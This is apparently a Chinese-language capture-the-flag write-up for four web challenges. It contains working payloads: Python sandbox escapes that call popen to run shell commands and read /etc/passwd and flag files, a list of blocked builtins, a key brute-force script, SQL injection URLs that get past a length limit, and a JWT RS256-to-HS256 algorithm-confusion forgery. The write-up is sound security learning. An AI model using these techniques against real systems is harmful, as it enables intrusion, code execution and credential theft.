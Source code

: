
# web
### outdated
#python_escape 
上传python文件,服务器会执行
```python

blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec",
        "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys",
        "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]
```


基本上是 #ssti 的思路,感觉没啥问题啊
```python
# ''.__class__.__bases__[0].__subclasses__()[132].__init__['__gl\x6fbals__']['po\x70en']('ls').read()
print([].__class__.__mro__[-1].__subclasses__()[94]("/etc/passwd").read())
```

payload
```python
print("".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat flag-54f44180-b995-4083-9428-677e827126d5.txt').read())
```

---
```python
print(print.__self__.__loader__().load_module('o' + 's').__dict__['pop'+'en']('cat flag-2fc862c3-cad0-4736-8274-1d805fca98b4.txt').read())
```



在测试黑名单前会调用`clean_comments_and_strings` 函数
`print(.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[]().read())`
*那为啥globals没匹配到*

`blocked_regex = re.compile(fr'({"|".join(blocked)})(?![a-zA-Z0-9_])')
> 如果"blocked"列表中包含了字符串"eval"，那么正则表达式将匹配以下字符串："eval(", "eval+", "eval\n"等。但是不会匹配"evaluate"或"evaluation"等以"eval"开头但后面跟着字母数字字符的字符串。
### pay_to_win

- 存在任意文件读取
```python
    if payload['user_type'] == 'premium':
        theme_name = request.args.get('theme') or 'static/premium.css'
        return render_template('premium.jinja', theme_to_use=open(theme_name).read())
```

- 爆破密钥
```python
import hashlib
def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()


data='eyJ1c2VybmFtZSI6ICJhZG1pbiIsICJ1c2VyX3R5cGUiOiAiYmFzaWMifQ=='

real="1af835e5354b1eabb67dfe7df8818f7377f4c83066de39ad3187fd8035f84cb7"
import random

for i in range(0,2**24):
    if hash(data+hex(i)[2:])==real:
        print(hex(i)[2:])
```

得到密钥`cc1f79`
本目录和根目录都没有flag,随便试了一下读取Dockerfile,提示flag在`/secret-flag-dir/flag.txt`

### ezsql
#nodejs #sql 
```js
app.get('/search', (req, res) => {
    const { name } = req.query;

    if (!name) {
        return res.status(400).send({ err: 'Bad request' });
    }

    if (name.length > 6) { 
        return res.status(400).send({ err: 'Bad request' });
    }

    db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows) => {
        if (err) {
            console.error(err.message);
            return res.status(500).send('Internal server error');
        }

        return res.send(rows);
    });
});
```
很明显存在sql注入,但是存在长度限制,使用 `?name[]=`绕过去,这样就会获取数组的长度

- 注入得到flag表名
`search?name[]=1' union SELECT 1,name FROM sqlite_master WHERE type = 'table' --+`
- flag
`search?name[]=1' union SELECT 1,* from flag_601bfe49_65f6_4b9a_a142_40b2a3350327 --+`

### back-to-the-past

---

```python
def generate_token(id, username, year):
    return jwt.encode(
        {"id": id, "username": username, "year": year}, private_key, algorithm="RS256"
    )


def verify_token(token):
    try:
        return jwt.decode(token.encode(), public_key, algorithms=["HS256", "RS256"])
    except:
        return None
```

可以看到使用rs256非对称加密,我们只有公钥,如果伪造session需要私钥解密
但是还支持另外一种算法`hs256`,直接修改代码生成

```python
def generate_token(id, username, year):
    return jwt.encode(
        {"id": id, "username": username, "year": year}, public_key, algorithm="HS256"
    )
```



# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-27   19:07